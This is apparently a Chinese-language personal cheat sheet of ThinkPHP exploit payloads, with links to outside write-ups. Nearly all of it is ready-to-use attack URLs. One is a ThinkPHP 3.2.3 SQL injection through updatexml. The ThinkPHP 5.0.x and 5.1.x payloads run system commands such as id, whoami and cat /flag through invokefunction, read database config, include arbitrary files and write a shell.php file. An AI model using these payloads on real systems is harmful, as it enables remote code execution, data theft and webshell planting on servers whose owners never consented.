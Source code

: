 # Thinkphp——RCE

---

总结：3和5都有

https://www.cnblogs.com/0xdd/p/11102426.html

## Thinkphp3

Thinkphp3.2.3最新版update注入漏洞

```
/index.php/home/user?id[]=bind%27&money[]=1123&user=liao&id[0]=bind&id[1]=0%20and%20(updatexml(1,concat(0x7e,(select%20user()),0x7e),1))
```





## Thinkphp5

index模块要存在，如果不存在就看哪个模块存在进行替换（如：home、admin  {s=home、s=admin}）

总结：

```
https://www.cnblogs.com/Mikasa-Ackerman/p/ThinkPhp-zhiRce-fen-xi.html
```

Thinkphp 5.0.7

```
/index.php/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=cat+/flag
```

Thinkphp 5.0.x

```
/index.php?s=index/think\config/get&name=database.username // 获取配置信息
/index.php?s=index/\think\Lang/load&file=../../test.jpg    // 包含任意文件
/index.php?s=index/\think\Config/load&file=../../t.php     // 包含任意.php文件
/index.php?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id
/index.php?s=index|think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][0]=whoami
```



Thinkphp 5.1.x

```
/index.php?s=index/\think\Request/input&filter[]=system&data=pwd
/index.php?s=index/\think\view\driver\Php/display&content=<?php phpinfo();?>
/index.php?s=index/\think\template\driver\file/write&cacheFile=shell.php&content=<?php phpinfo();?>
/index.php?s=index/\think\Container/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id
/index.php?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id
```

